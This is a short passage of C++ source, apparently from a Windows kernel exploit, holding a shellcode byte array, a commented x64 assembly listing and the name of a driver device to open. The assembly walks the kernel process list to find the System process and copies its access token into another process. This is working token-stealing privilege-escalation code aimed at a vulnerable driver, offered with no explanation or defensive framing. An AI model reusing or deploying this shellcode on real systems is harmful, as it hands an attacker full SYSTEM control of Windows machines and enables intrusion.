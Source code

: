 ```c++
		0x75,0xF4,
		0x48,0x89,0x41,0x70,
		0x5F,
		0x41,0x59,
		0x41,0x58,
		0x5A,
		0x59,
		0xC3
		};
	/*
.code
	Backup_Register proc
		PUSH RCX
		PUSH RDX
		PUSH R8
		PUSH R9
		PUSH RDI
	Backup_Register endp

	GetStruct proc
		MOV RCX, gs:[188h]
		MOV RDX, [RCX+0B8h]
		MOV R8, [RDX+2F0h]
		MOV RDI, [RDX+3E8h]
		MOV RCX, [R8]
	GetStruct endp

	FindProcess proc
		MOV RDX, [RCX-8]
		CMP RDX, 4
		JZ GetToken
		MOV RCX, [RCX]
		JMP FindProcess
	FindProcess endp

	GetToken proc
		MOV RAX, [RCX+70h]
		AND al, 0f0h
	GetToken endp

	Find_Cmd proc
		MOV RCX, [RCX]
		MOV RDX, [RCX-8]
		CMP RDX, RDI
		JNE Find_Cmd
	Find_Cmd endp

	CopyToken proc
		MOV [RCX+70h], RAX
	CopyToken endp

	Restore proc
		POP RDI
		POP R9
		POP R8
		POP RDX
		POP RCX
		RET
	Restore endp
end
*/
	const wchar_t* deviceName = L"\\\\.\\Htsysm72FB";

```